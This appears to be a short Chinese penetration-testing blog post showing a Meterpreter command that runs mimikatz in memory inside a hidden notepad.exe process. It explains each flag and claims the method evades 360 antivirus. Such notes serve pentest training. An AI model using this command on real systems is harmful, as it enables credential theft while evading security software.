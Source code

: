 ```yaml
---
title: "Meterpreter 内存加载执行"
date: 2019-07-21T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['metasploit','bypass']
categories: ['内网渗透']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


具体原理和进程注入类似, 先创建一个正常的进程, 然后把这个进程里的内存空间覆盖成我们想要执行的程序.

Meterpreter 方式.

<!--more-->

```
execute -H -m -d notepad.exe -f mimikatz.exe -i
```

`-H` 隐藏窗口.

`-m` 在内存中执行.

`-d` 指定覆盖进程 (dummy).

`-f` 指定执行程序 (本地文件).

`-i` 与该程序交互 (可选).

`-a` 传递参数 (可选).

在实际测试中能够绕过 360 的检测, 当然前提是你反弹会话的 payload 是免杀的.